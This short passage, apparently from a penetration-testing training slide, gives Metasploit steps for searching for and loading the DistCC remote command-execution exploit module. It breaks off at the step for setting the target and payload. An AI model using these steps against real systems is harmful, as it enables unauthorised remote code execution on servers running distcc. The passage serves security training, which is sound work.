

#
In Metasploit, search for the DistCC exploit: search distcc
Use the exploit: use exploit/unix/misc/distcc_exec
Set the target and payload: